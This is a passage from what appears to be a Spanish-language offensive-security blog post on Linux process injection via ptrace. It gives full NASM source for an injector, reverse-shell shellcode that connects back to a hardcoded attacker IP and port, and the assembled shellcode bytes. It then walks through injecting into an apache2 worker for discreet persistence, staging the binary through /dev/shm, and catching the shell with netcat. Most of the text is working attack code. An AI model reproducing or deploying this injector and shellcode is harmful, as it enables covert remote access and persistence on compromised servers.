        mov qword [regs+0x50], 9       ; (RAX) Se sustituye todo el valor del registro       Número de syscall para mmap
        mov qword [regs+0x70],0        ; (RDI)       rdi = addr = 0 (NULL) → Pide al kernel que elija la dirección
        mov qword [regs+0x68],4096     ; (RSI)       rsi = length = 4096 bytes (1 página típica)
        mov qword [regs+0x60],7        ; (RDX)       rdx = prot = 7 => PROT_READ(1) | PROT_WRITE(2) | PROT_EXEC(4)
        mov qword [regs+0x38],34       ; (R10)       r10 = flags = 34 => MAP_PRIVATE(0x2) | MAP_ANONYMOUS(0x20)
        mov qword [regs+0x48],-1       ; (R8)        r8 = fd = -1 (usado con MAP_ANONYMOUS; -1 indica "no file")
        mov qword [regs+0x40],0        ; (R9)        r9 = offset = 0 (desplazamiento en el fd; irrelevante con ANONYMOUS)
    
    ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs] ; puntero al buffer donde se encuentra la estructura de registros
        syscall

; -----------------------------------------

; 5 Ejecución controlada de la syscall MMAP

    ;PTRACE_SINGLESTEP
    mov rax, 101
    mov rdi, 9       ; PTRACE_SINGLESTEP
    mov rsi, r15     ; PID
    xor rdx, rdx     ; addr
    xor r10, r10     ; data
    syscall

    ; WAIT4: 
    mov rax, 61
    mov rdi, r15            ; PID a esperar (-1 para cualquier hijo)
    sub rsp, 8
    mov rsi, rsp            ; &status
    xor rdx, rdx            ; options
    xor r10, r10            ; rusage
    syscall

    ; PTRACE_GETREGS
    mov rax, 101
    mov rdi, 12   ; PTRACE_GETREGS
    mov rsi, r15  ; PID
    xor rdx, rdx  ; addr
    lea r10, [rel regs_sys] ; puntero al buffer donde se va almacenar la estructura de registros
    syscall
    

; -----------------------------------------

; 6 Obtención del resultado de la syscall MMAP

    xor r12, r12 
    mov r12, [regs_sys+0x50]       ; (RAX) dirección donde comienza la zona de memoria reservada com permisos RWX

; -----------------------------------------

; 7 Restauración del contenido ubicado en la dirección a la que apunta el registro RIP del tracee

        xor r14, r14
        mov r14, [regs_ori+0x80]

        ; PTRACE_POKEDATA (escribir en memoria)
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        mov rdx, r14   ; addr 
        mov r10, r13   ; valor de 8 bytes a escribir
        syscall

; -----------------------------------------

; 8 Restauración de los registros originales del proceso tracee

        ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs_ori] ; puntero al buffer donde se encuentra la estructura de registros
        syscall

; -----------------------------------------

; 9 Almacenamiento del RIP de retorno en los últimos 8 bytes de la región de memoria reservada por MMAP

        ; PTRACE_POKEDATA (escribir en memoria)
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        lea rdx, [r12+4088]   ; addr 
        mov r10, r14   ; valor de 8 bytes a escribir
        syscall

; -----------------------------------------

; 10 Inyección del shellcode en la zona de memoria reservada (PTRACE_POKEDATA escribe 8 bytes)

    xor r13,r13
    lea r13, [rel shellcode]   ; puntero al shellcode
    xor r14, r14
    mov r14, sc_len / 8        ; contador de palabras a escribir
    push r12

    .loop_inj:

        cmp r14, 0     ; compara el contador de palabras a escribir con 0
        jz .done       ; si contador == 0, saltar a .done

        ; PTRACE_POKEDATA
        mov rax, 101
        mov rdi, 5     ; PTRACE_POKEDATA
        mov rsi, r15   ; PID
        mov rdx, r12   ; addr 
        mov r10, [r13] ; valor de 8 bytes a escribir
        syscall

        add r12, 8
        add r13, 8
        dec r14
        jmp .loop_inj

; -----------------------------------------

    .done

        pop r12

        mov qword [regs_ori+0x80], r12   ; RIP == dirección del inicio de la memoria reservada == inicio del shellcode
        mov qword [regs_ori+0x78], -1    ; orig_rax = -1 (evita syscall restart)

        ; PTRACE_SETREGS
        mov rax, 101
        mov rdi, 13    ; PTRACE_SETREGS
        mov rsi, r15   ; PID
        xor rdx, rdx   ; addr
        lea r10, [rel regs_ori] ; puntero al buffer donde se encuentra la estructura de registros
        syscall

    ; PTRACE_DETACH
    mov rax, 101
    mov rdi, 17    ; PTRACE_DETACH
    mov rsi, r15   ; PID
    xor rdx, rdx   ; addr
    xor r10, r10   ; signal = 0 (no enviar señal)
    syscall

    ; EXIT
    mov rax, 60
    xor rdi,rdi 
    syscall

```

### `proc_inj_rev_tcp.asm` (shellcode)

```nasm
section .text
global _start
_start:

    ; FORK
    mov rax, 57
    syscall

    cmp rax, 0           ; si rax==0 se trata del hijo
    jz .child            

                            ; r11 porque es un registro clobbered (destruido por las syscalls)
                                ; por tanto, no se está modificando un registro funcional del proceso tracee
    lea r11, [rel _start] ; r11 = dirección de _start = mmap_base = RIP inicial del shellcode

                            ; Nunca se debe asignar un valor a R11 antes de un syscall si se pretende recuperar después

    ; Proceso Padre
    mov r14, [r11+4088] ; Obtiene dirección de retorno
    jmp r14             ; Salta a la dirección de retorno sobreescribiendo el registro RIP

.child

    ; SETSID
    mov rax, 112
    syscall

    ; SOCKET
    mov rax, 41
    mov rdi, 2 ;IPV4
    mov rsi, 1 ;TCP
    xor rdx, rdx ; Default
    syscall

    ; Store socket FD
    mov r8, rax

    ; CONNECT
    mov rax, 42
    mov rdi, r8
                    ;   Stack        Low  <----------- High
    ; Entrada esperada: 02 00 11 5c C0 A8 12 8D 00 00 00 00 00 00 00 00   
    ;                   └──┘  └──┘  └────────┘  └──────────────────────┘
    ;                   0-1   2-3   4-7         8-15         (16 bytes en total)
    ;                   fam   port  IP          padding

    ; Mapeado de los campos de sockaddr_in:
                        ; Bytes 0-1:   02 00           → sin_family (AF_INET = 2)
                        ; Bytes 2-3:   11 5c           → sin_port (4444)
                        ; Bytes 4-7:   7F 00 00 01     → sin_addr (127.0.0.1)
                        ; Bytes 8-15:  00 00 00 00...  → sin_zero (padding)
    xor r9,r9 ; 0
    push r9 ; 64 bits de padding a 0 (sin_zero)(8 bytes)
    mov r10, 0x0100007F5c110002
    push r10 ; sin_family + sin_port + sin_addr (8 bytes)
    mov rsi, rsp ; direccion del tope de la pila
    mov rdx, 16 ;IPV4 (espera 16 bytes)
    syscall

    xor rsi,rsi
.dup2:                        ; stdin(0), stdout(1), stderr(2) redirigidos al socket
    ;DUP2
    mov rax, 33
    mov rdi, r8
    syscall 
    inc rsi
    cmp rsi, 3
    jl .dup2

    ; EXEXCVE
    mov rax, 59

    push 0                       ; null terminator de /bin/sh -> /bin/sh\0
    mov r12, 0x68732f6e69622f    ; /bin/sh (2F 62 69 6E 2F 73 68) en little-endian
    push r12                     ; string /bin/sh
    mov rdi, rsp

    push 0                       ; argv = {NULL}
    mov rsi, rsp

    push 0                       ; envp = {NULL}
    mov rdx, rsp

    syscall 

.done:
    ; EXIT
    mov rax, 60                    ; syscall: exit
    xor rdi, rdi                   ; exit code = 0 (éxito)
    syscall
```

## Compilación

```bash
# Compilar el shellcode de reverse shell
nasm -f elf64 proc_inj_rev_tcp.asm -o proc_inj_rev_tcp.o
ld proc_inj_rev_tcp.o -o proc_inj_rev_tcp

# Extraer bytes del shellcode (para actualizar la sección .data del inyector)
objcopy -O binary --only-section=.text proc_inj_rev_tcp proc_inj_rev_tcp.bin
xxd -i proc_inj_rev_tcp.bin

# Compilar el inyector
nasm -f elf64 proc_inj.asm -o proc_inj.o
ld proc_inj.o -o proc_inj

```

## Caso Práctico

Se ha comprometido un servidor Linux y se tiene acceso como **root**. El objetivo es inyectar una reverse shell en un proceso de larga duración de un usuario del sistema para mantener acceso persistente discreto. Al ser root no hay restricciones de `ptrace_scope`, root puede trazar cualquier proceso del sistema independientemente de su configuración.

En primer lugar, comenzamos editando el script `proc_inj_rev_tcp.asm`, ya que las modificaciones son datos propios del atacante. Para ello, debemos obtener la dirección IP de la máquina atacante y definir un puesto de escucha.

```bash
# Máquina atacante
ip a
```


La IP del atacante es la **192.168.18.245**, que en hexadecimal equivale a `0xC0A812F5`. El puerto de escucha que utilizaremos será el 443, equivalente a `0x1BB`.

```nasm
; CONNECT
mov rax, 42
mov rdi, r8

;   Stack        Low  <----------- High
; Entrada esperada (16 bytes):
; 02 00 01 BB C0 A8 12 F5 00 00 00 00 00 00 00 00
; └──┘ └──┘ └────────┘ └────────────────────────┘
; fam  port      IP              padding

; Mapeo sockaddr_in:
; Bytes 0-1:  02 00         -> sin_family (AF_INET = 2)
; Bytes 2-3:  01 BB         -> sin_port   (443, big-endian)
; Bytes 4-7:  C0 A8 12 F5   -> sin_addr   (192.168.18.245)
; Bytes 8-15: 00 ... 00     -> sin_zero   (padding)

xor r9, r9
push r9                         ; 8 bytes a 0 (sin_zero)
mov r10, 0xF512A8C0BB010002      ; [02 00][01 BB][C0 A8 12 F5]
push r10                         ; fam+port+ip
mov rsi, rsp                     ; sockaddr_in*
mov rdx, 16                      ; sizeof(sockaddr_in)
syscall
```

Compilamos el script y obtenemos los bytes que formarán el shellcoe a inyectar.

```bash
# Compilar el shellcode de reverse shell
nasm -f elf64 proc_inj_rev_tcp.asm -o proc_inj_rev_tcp.o
ld proc_inj_rev_tcp.o -o proc_inj_rev_tcp

# Extraer bytes del shellcode (para actualizar la sección .data del inyector)
objcopy -O binary --only-section=.text proc_inj_rev_tcp proc_inj_rev_tcp.bin
xxd -i proc_inj_rev_tcp.bin
```



El shellcode tiene un tamaño de 161 bytes. Dado que `PTRACE_POKEDATA` escribe exactamente 8 bytes por llamada, el tamaño total del shellcode debe ser múltiplo de 8. El siguiente múltiplo de 8 después de 161 es 168, por lo que se añaden 7 bytes NOP (`0x90`) como padding al final para completar los 168 bytes (168 / 8 = 21 escrituras).

Una vez obtenidos los bytes que conforman el shellcode, podemos añadir el bloque al script inyector `proc_inj.asm`.

```nasm
; proc_inj.asm

shellcode:
    db 0xb8, 0x39, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
    db 0x83, 0xf8, 0x00, 0x74, 0x11, 0x4c, 0x8d, 0x1d
    db 0xec, 0xff, 0xff, 0xff, 0x4d, 0x8b, 0xb3, 0xf8
    db 0x0f, 0x00, 0x00, 0x41, 0xff, 0xe6, 0xb8, 0x70
    db 0x00, 0x00, 0x00, 0x0f, 0x05, 0xb8, 0x29, 0x00
    db 0x00, 0x00, 0xbf, 0x02, 0x00, 0x00, 0x00, 0xbe
    db 0x01, 0x00, 0x00, 0x00, 0x48, 0x31, 0xd2, 0x0f
    db 0x05, 0x49, 0x89, 0xc0, 0xb8, 0x2a, 0x00, 0x00
    db 0x00, 0x4c, 0x89, 0xc7, 0x4d, 0x31, 0xc9, 0x41
    db 0x51, 0x49, 0xba, 0x02, 0x00, 0x01, 0xbb, 0xc0
    db 0xa8, 0x12, 0xf5, 0x41, 0x52, 0x48, 0x89, 0xe6
    db 0xba, 0x10, 0x00, 0x00, 0x00, 0x0f, 0x05, 0x48
    db 0x31, 0xf6, 0xb8, 0x21, 0x00, 0x00, 0x00, 0x4c
    db 0x89, 0xc7, 0x0f, 0x05, 0x48, 0xff, 0xc6, 0x48
    db 0x83, 0xfe, 0x03, 0x7c, 0xed, 0xb8, 0x3b, 0x00
    db 0x00, 0x00, 0x6a, 0x00, 0x49, 0xbc, 0x2f, 0x62
    db 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, 0x41, 0x54
    db 0x48, 0x89, 0xe7, 0x6a, 0x00, 0x48, 0x89, 0xe6
    db 0x6a, 0x00, 0x48, 0x89, 0xe2, 0x0f, 0x05, 0xb8
    db 0x3c, 0x00, 0x00, 0x00, 0x48, 0x31, 0xff, 0x0f
    db 0x05, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90
sc_len equ $ - shellcode
```

Ya solo queda obtener el PID del proceso objetivo para completar la configuración de los scripts. En este caso, usaremos como objetivo el proceso `apache2` del usuario `www-data` (aunque también podría elegirse uno ejecutándose como **root** si se desea conservar los privilegios tras la conexión), ya que es un proceso de larga duración que suele permanecer activo en un servidor web y cuyas conexiones salientes pueden pasar más desapercibidas.

```bash
# Máquina víctima
ps -u www-data -o pid,etime,cmd
```


Se elige uno de los worker processes (PID **5204**) y se actualiza el valor en `proc_inj.asm`.

```nasm
; proc_inj.asm

; PID    
mov r15, 5204
```

Una vez configurado el script inyector, lo compilamos.

```bash
# Compilar el inyector
nasm -f elf64 proc_inj.asm -o proc_inj.o
ld proc_inj.o -o proc_inj
```

Una vez que disponemos del ejecutable, es necesario alojarlo en la máquina víctima. Existen numerosos métodos para hacerlo, pero si no contamos con una shell completamente interactiva, mi opción preferida es transferirlo en Base64, reconstruirlo en `/dev/shm` y ejecutarlo desde ahí. 

```bash
# Convertir el binario a Base64 y mostrarlo por pantalla
base64 -w 0 ./proc_inj > proc_inj.b64 && cat proc_inj.b64
```

Antes de realizar la ejecución en la máquina objetivo recuerda mantenerte a la escucha en el puerto establecido.

```bash
# Máquina atacante
nc -nlvp 443
```

Una vez todo preparado, alojamos y ejecutamos el inyector en la máquina objetivo.

```bash
# Máquina víctima

# Decodifica Base64 a binario en memoria (tmpfs), asigna permisos de ejecución y ejecuta inmediatamente
echo '<Base64>' | base64 -d > /dev/shm/proc_inj && chmod +x /dev/shm/proc_inj && /dev/shm/proc_inj
```

Inmediatamente después, recibimos la conexión entrante desde la víctima.


## Consideraciones de seguridad

Para que `ptrace` funcione sobre el proceso objetivo, se debe cumplir al menos una de las siguientes condiciones de privilegio:

- El tracer debe tener el **mismo UID** que el *tracee*.
- El tracer debe tener la capability `CAP_SYS_PTRACE`.
- El tracer debe ejecutarse como `root`.

Además, el fichero `/proc/sys/kernel/yama/ptrace_scope` indica restricciones adicionales:

| Valor | Restricción |
| --- | --- |
| 0 | Sin restricciones |
| 1 | Solo hacia procesos hijos |
| 2 | Solo con `CAP_SYS_PTRACE` |
| 3 | Ptrace completamente deshabilitado |

Para pruebas en entornos controlados, se puede desactivar temporalmente:

```bash
echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
```

## Agradecimientos

Gracias por llegar hasta aquí.

Si encuentras errores o quieres mejorar algo, el contenido del blog está abierto a Pull Requests. Toda contribución es bienvenida.

¡Nos vemos en el próximo artículo! ;)
